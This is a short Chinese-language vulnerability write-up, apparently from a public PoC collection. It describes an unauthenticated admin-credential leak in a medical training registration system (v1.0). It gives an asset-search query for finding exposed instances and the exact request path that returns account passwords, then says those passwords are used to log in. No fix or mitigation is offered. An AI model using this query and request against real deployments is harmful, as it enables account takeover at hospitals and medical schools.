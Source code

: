# 远秋医学培训报名系统v1.0 ManagerList存在未授权账号密码泄露漏洞

# 一、漏洞简介
远秋医学在线考试系统采用通用的试题库管理软件，适用于各级各类医学院校和医院。远秋医学在线考试系统某接口存在未授权信息泄露漏洞，攻击者可利用该漏洞获取数据库敏感信息。远秋医学培训报名系统v1.0存在未授权访问漏洞，攻击者可通过漏洞获取登录密码。

# 二、影响版本
+ 远秋医学培训报名系统v1.0

# 三、资产测绘
```plain
title="远秋医学培训报名系统v1.0"
```

![1718993325214-398499d2-2af5-4412-88af-a1260ffee33c.png](./img/H5wj7sp5XRf9yr1n/1718993325214-398499d2-2af5-4412-88af-a1260ffee33c-639148.png)

# 四、漏洞复现
```java
/User/ManagerList.aspx?ty=1&ty=1
```

![1718993342894-79c3c62d-1bcc-48db-900b-10ebc348ffc5.png](./img/H5wj7sp5XRf9yr1n/1718993342894-79c3c62d-1bcc-48db-900b-10ebc348ffc5-960549.png)

使用获取密码登录系统

![1718993436210-024def15-1cfe-4c15-a908-3ee6e49cad05.png](./img/H5wj7sp5XRf9yr1n/1718993436210-024def15-1cfe-4c15-a908-3ee6e49cad05-563873.png)



> 更新: 2024-06-23 23:40:49  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qy0el2vabhtch5nc>